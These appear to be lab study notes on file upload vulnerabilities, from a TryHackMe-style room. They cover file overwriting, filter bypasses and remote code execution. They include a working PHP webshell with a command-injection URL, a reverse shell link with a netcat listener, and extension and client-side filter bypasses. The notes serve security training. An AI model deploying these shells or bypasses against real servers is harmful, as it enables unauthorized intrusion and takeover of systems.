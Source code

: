 be the way to **Remote Code Execution(RCE)**

vulns:
* Overwriting existing files
* Upadloing & executing shells
* Bypassing Client-Side filtering
* Bypassing Server-Side filtering
* Fooling content type validation checks

## Methodology
**enumeration is key**

looking source code to find client-side filtering vuln
scanning with a directory bruteforcer : `sudo apt install gobuster`


## Overwriting Existing Files
when files are uploaded to server, server should ensure the file will not overwrite anything which alreading exists on server.

Common practice:
* Assign file with a new name or random name

### if we don't have overwriting check
we found the website display the image with `images/spaniel.jpg`
![](https://i.imgur.com/9FNtNHG.png)

if we have website like this, we can upload our `spaniel.jpg` to overwriting existing file as attack
![](https://i.imgur.com/89xgC1m.png)

## Remote Code Execution
RCE tends to be uploading a program with same language as back-end like PHP.

basic way:
* webshells
* reverse shells

A fully featured reverse shell is our ideal goal for an attacker.
But webshell may be the only option available.

### Web shells
if we have a website like this
![](https://i.imgur.com/aM0IIQc.png)

we can start with gobuster scan
![](https://i.imgur.com/UEmOcxL.png)

we can found our uploads might go go `/uploads`
and after we uploaded something, we can go to `http://demo.uploadvulns.thm/uploads` to check the result\

![](https://i.imgur.com/cRDq9DL.png)

a simple webshell in PHP:
```php
<?php
    echo system($_GET["cmd"]);
?>
```

and we can use URL parameter to execute some command like this:
`http://demo.uploadvulns.thm/uploads/webshell.php?cmd=id;whoami;ls`
it would execute 
```bash
$ id
$ whoami
$ ls
```

### Reverse Shells
using ubiquitous *Pentest Monkey reverse shell* here

we can get the php payload [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
)

remember to change the ip in `php-reverse-shell.php`
![](https://i.imgur.com/cxGA4Bd.png)


and we start our Netcat listener:
```bash
$ nc -lvnp 1234
```

we upload the reverse shell file and we can navigating to `http://demo.uploadvulns.thm/uploads/shell.php`, starting the shell

finally we get a fully shells in our netcat
![](https://i.imgur.com/vZoBDtm.png)



## Filtering

* client-side filtering would run in our browser.
* Filtering occurs before the file uploaded to the server
* javascript is ubiquitous client-side scripting language.

Filtering kinds:
* Extension Validation : identify the contents of a file
	* Blacklist Extension
	* Whitelist Extension
* File Type Filtering
	* **Multipurpose Internet Mail Extension**(MIME) **validation** : transfer attach over email or HTTP(S)
	* **Magic number validation**
* File Name filtering
* File Length filtering out null byte
* Flie Content filtering

### Client-side
* Turn off javascript in browser
* Intercept & modify incoming page : using Burpsuite before the web page is loaded
* Intercept & modify file upload
* Send the file directly to the upload point : using `curl` to send the POST

remember to use GOBUSTER!


exmaple of whitelist code :
![](https://i.imgur.com/XRDetca.png)

by default BurpSuite would not intercept external js files
remove the `^js$|` in first line in options:
![](https://i.imgur.com/su3Ugwp.png)


reload homepage & Intercept the **response to this request** & forward:
![](https://i.imgur.com/yZDbm47.png)

if the functions are not inline:
Forward to the right script & Intercept the** Response to this request**
![](https://i.imgur.com/siOxfsG.png)

### Server-side
a example of php code to filter out
```php
<?php
    //Get the extension
    $extension = pathinfo($_FILES["fileToUpload"]["name"])["extension"];
    //Check the extension against the blacklist -- .php and .phtml
    switch($extension){
        case "php":
        case "phtml":
        case NULL:
            $uploadFail = True;
            break;
        default:
            $uploadFail = False;
    }
?>
```

* this code search for the last period `.`
* block out `.php` `.phtml`
* most of them only block this 2 extensions, but we can use `.php5` `.phar`
* especially for the system that didn't update the filter configuration


some code may use finding `.jpg` in whitelist function, like this:
```
ACCEPT FILE FROM THE USER -- SAVE FILENAME IN VARIABLE userInput
IF STRING ".jpg" IS IN VARIABLE userInput:
    SAVE THE FILE
ELSE:
    RETURN ERROR MESSAGE
```

### Magic number
magic number is a string of hex digits as identifier of files.
Really effective against a PHP based webserver.